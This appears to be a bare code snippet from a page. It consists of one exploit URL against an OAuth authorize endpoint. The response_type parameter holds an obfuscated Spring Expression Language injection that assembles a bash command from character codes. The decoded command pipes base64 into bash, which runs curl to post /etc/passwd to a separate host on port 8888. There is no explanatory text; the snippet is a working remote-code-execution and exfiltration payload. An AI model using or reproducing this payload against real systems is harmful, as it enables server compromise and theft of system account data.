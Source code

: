 ```php
http://192.168.175.209:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(88)).concat(T(java.lang.Character).toString(81)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(57)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(88)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(81)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(61)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}&amp;client_id=acme&amp;scope=openid&amp;redirect_uri=http://test
```
